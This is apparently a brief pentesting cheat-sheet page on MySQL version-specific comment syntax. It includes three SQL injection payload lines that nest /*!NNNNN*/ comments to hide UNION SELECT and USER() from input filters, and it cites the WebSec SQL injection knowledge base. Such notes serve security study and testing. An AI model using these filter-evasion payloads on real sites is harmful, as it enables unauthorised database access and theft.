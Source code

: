```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - webapp-pentesting
  - server-side-attack
  - defense-evasion
  - sql-injection
---
```

# Specific Code

## MySQL

 MySQL allows you to specify the version number after the exclamation mark. The syntax within the comment is only executed if the version is greater or equal to the specified version number. 

```
/*!information_schema.tables*/
UNION SELECT /*!50000 5,null;%00*//*!40000 4,null-- ,*//*!30000 3,null-- x*/0,null--+
SELECT 1/*!41320UNION/*!/*!/*!00000SELECT/*!/*!USER/*!(/*!/*!/*!*/);
```

---
## References

### WebSec

- [WebSec: SQL Injection Knowledge Base](https://www.websec.ca/kb/sql_injection)